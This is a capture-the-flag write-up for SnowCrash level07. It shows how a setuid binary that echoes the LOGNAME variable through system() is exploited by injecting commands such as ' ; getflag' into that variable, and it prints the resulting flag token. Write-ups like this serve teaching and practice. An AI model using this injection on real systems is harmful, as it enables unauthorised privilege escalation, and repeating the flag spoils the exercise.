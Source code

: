 ## --------------> Vulnerability


Privilege escalation via env variable


In our home directory, we see an executable with suid/guid

```
level07@SnowCrash:~$ ls -la level07
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

Let's try to understand what the program does by using the ltrace debugger:

```
level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7b4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                   = 2007
geteuid()                                                   = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)         = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)         = 0
getenv("LOGNAME")                                           = "level07"
asprintf(0xbffff704, 0x8048688, 0xbfffff37, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                      = 0
+++ exited (status 0) +++
```

The program obtains the environment variable LOGNAME.
Let's take a look at its value and see what happens if we adjust it

```

level07@SnowCrash:~$ echo $LOGNAME
level07
level07@SnowCrash:~$ export LOGNAME='test1'
level07@SnowCrash:~$ ./level07
test1
level07@SnowCrash:~$

```

The system call to /bin/echo is clearly intended to display the value of LOGNAME.
That is, by altering this value, we may deceive the computer into performing a second command after /bin/echo.
This is a vulnerability since the file has a suid bit and hence will execute any command as user flag07:
```
level07@SnowCrash:~$ export LOGNAME=" ;whoami"
level07@SnowCrash:~$ ./level07

flag07
level07@SnowCrash:~$

```

injecting getflag should yield the desired result

```
level07@SnowCrash:~$ export LOGNAME=" ; getflag"
level07@SnowCrash:~$ ./level07

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
level07@SnowCrash:~$ su level08
Password:
level08@SnowCrash:~$

```
